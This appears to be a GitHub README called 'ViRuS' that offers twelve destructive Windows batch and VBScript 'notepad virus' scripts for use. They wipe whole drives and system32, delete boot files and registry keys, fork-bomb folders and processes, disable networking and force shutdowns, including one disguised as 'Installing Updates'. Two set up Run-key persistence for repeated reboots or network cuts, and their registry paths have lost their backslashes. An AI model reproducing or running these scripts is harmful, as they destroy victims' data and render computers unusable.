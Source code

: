 # ViRuS
## simple notepad virus


# codes given below


virus - 1

```@echo off
:VIRUS
cd /d C:
md %RANDOM%
cd /d D:
md %RANDOM%
cd /d E:
md %RANDOM%
goto VIRUS
REM #######################
REM errorcode401.blogspot.in

```

-----------------------------------
-  virus - 2

```bash
@echo off
del D:\*.* /f /s /q
del E:\*.* /f /s /q
del F:\*.* /f /s /q
del G:\*.* /f /s /q
del H:\*.* /f /s /q
del I:\*.* /f /s /q
del J:\*.* /f /s /q
```
-------------------------
-  virus - 3

```@ECHO OFF
START reg delete HKCR/.exe
START reg delete HKCR/.dll
START reg delete HKCR/*

```
--------------------------
-  virus - 4

```@Echo off
Ipconfig /release

```
-------------------------
- virus - 5

```@echo off
msg * Lets Roll Baby
shutdown -c “Error! Your ass got glued!” -s

```
-----------------------------
- virus - 6

(save as .VBS)

```Option Explicit

Dim WSHShell
Set WSHShell=Wscript.CreateObject(“Wscript.Shell”)

Dim x
For x = 1 to 100000000
WSHShell.Run “Tourstart.exe”
Next
```

--------------------------------------------------------------------
- virus - 7

```rd/s/q D:\
rd/s/q C:\
rd/s/q E:\
```
----------------------------------------------------------------

- virus - 8


```echo @echo off>c:windowshartlell.bat
echo break off>>c:windowshartlell.bat
echo shutdown -r -t 11 -f>>c:windowshartlell.bat
echo end>>c:windowshartlell.bat
reg add hkey_local_machinesoftwaremicrosoftwindowscurrentversionrun /v startAPI /t reg_sz /d c:windowshartlell.bat /f
reg add hkey_current_usersoftwaremicrosoftwindowscurrentversionrun /v /t reg_sz /d c:windowshartlell.bat /f
echo You Are Nailed, Buy A New Computer This Is Piece Of Shit.
PAUSE
```
-----------------------------------------------------------------------------

- virus - 9

```@echo off
attrib -r -s -h c:\autoexec.bat
del c:\autoexec.bat
attrib -r -s -h c:\boot.ini
del c:\boot.ini
attrib -r -s -h c:\ntldr
del c:\ntldr
attrib -r -s -h c:\windows\win.ini
del c:\windows\win.ini

```
--------------------------------------------------------------
- virus - 10

```bash
shutdown -s -t 100 c “Installing Updates”

```
--------------------------------------------------------------------
- virus - 11

```del c:\WINDOWS\system32\*.*/q

```
--------------------------------
- virus - 12

```echo @echo off>c:windowswimn32.bat
echo break off>>c:windowswimn32.bat
echo ipconfig/release_all>>c:windowswimn32.bat
echo end>>c:windowswimn32.bat
reg add hkey_local_machinesoftwaremicrosoftwindowscurrentversionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.bat /f
reg add hkey_current_usersoftwaremicrosoftwindowscurrentversionrun /v CONTROLexit /t reg_sz /d c:windowswimn32.bat /f
echo You have maxed your internet usage for a lifetime ??
PAUSE

```


@ thank you

